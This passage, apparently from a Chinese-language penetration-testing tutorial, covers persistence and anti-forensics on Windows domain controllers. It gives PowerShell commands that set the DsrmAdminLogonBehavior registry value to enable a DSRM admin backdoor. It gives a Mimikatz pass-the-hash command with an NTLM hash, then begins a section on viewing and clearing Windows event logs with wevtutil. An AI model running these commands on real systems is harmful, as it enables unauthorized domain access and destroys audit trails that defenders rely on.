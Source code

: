     
    
    New-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2-PropertyType DWORD

如果存在但是不为2设置为2：

    
    
    Set-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192549.png)

## 4.3 PTH域控

    
    
    sekurlsa::pth /domain:DC /user:Administrator/ntlm:852a844adfce18f66009b4f14e0a98de/run:powershell.exe

![]()

# 0x05 规避Windows 事件日志记录

在做完一些渗透测试清理痕迹是很有必要的一个环节，包括在一些渗透还未结束也要清理掉一些操作日志。在情报收集反溯源等等大多都是采用windows事件日志中。

## 5.1 查看windows日志

### 5.1.1 事件管理器

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192550.png)

### 5.1.2 powershell

  

管理员权限运行查看安全类别的日志：

    
    
    Get-WinEvent-FilterHashtable@{logname="security";}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192551.png)

## 5.2 windows日志清除方法

### 5.2.1 wevtutil.exe

 **统计日志列表数目信息等：**

    
    
     wevtutil.exe gli Applicationwevtutil.exe gli Security

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192552.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192553.png)
